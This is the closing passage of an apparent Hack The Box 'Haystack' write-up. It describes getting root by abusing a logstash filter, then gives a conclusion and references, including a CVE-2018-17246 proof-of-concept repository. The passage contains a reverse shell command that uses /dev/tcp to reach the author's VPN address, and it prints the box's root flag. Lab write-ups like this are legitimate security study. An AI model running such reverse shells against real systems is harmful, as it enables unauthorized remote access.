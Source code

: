 ```console
```

This filter allows us to execute commands with the proper input. By placing our own `logstash_x` file into the `/opt/kibana` directory, we should get command execution.

Our logstash file follows exactly as `filter.conf` defines. Small note, our IP address has changed due to reconnecting to the Hack The Box VPN the following day.

```
Ejecutar comando : bash -i >& /dev/tcp/10.10.15.201/6666  0>&1
```

After waiting a few seconds, the command to call our reverse shell is executed.

![Rooted](/posts/images/hack-the-box-haystack-writeup/rooted.png)
**Figure: 5** Rooted

```console
[root@haystack /]# cat /root/root.txt
cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d92
```

# Conclusion
The user flag portion of this box was very CTF like. There's not much chance that in the real world you're going to come across a situation where clues are hidden in a `.jpg` and then `base64` encoded credentials are hidden in a database that contains a large amount of arbitrary data. I did learn from this experience though. This was the first time I've had to find a string hidden in an image, and it was my first experience with Elasticsearch queries.

The root portion of this box was rather difficult for me with my lack of experience in the ELK stack. It didn't take long to find the local file inclusion vulnerability, but leveraging it to get root really required me to research how `logstash` and `kibana` work. All in all I'm pleased to have completed the box.

## References
1. [https://www.socketloop.com/tutorials/elastic-search-return-all-records-higher-than-default-10]( https://www.socketloop.com/tutorials/elastic-search-return-all-records-higher-than-default-10)
2. [https://superuser.com/questions/803225/how-to-find-detect-hidden-files-inside-jpeg-file](https://superuser.com/questions/803225/how-to-find-detect-hidden-files-inside-jpeg-file)
3. [https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)
4. [https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/)
5. [https://www.anquanke.com/post/id/168291](https://www.anquanke.com/post/id/168291)
6. [https://grokdebug.herokuapp.com/](https://grokdebug.herokuapp.com/)
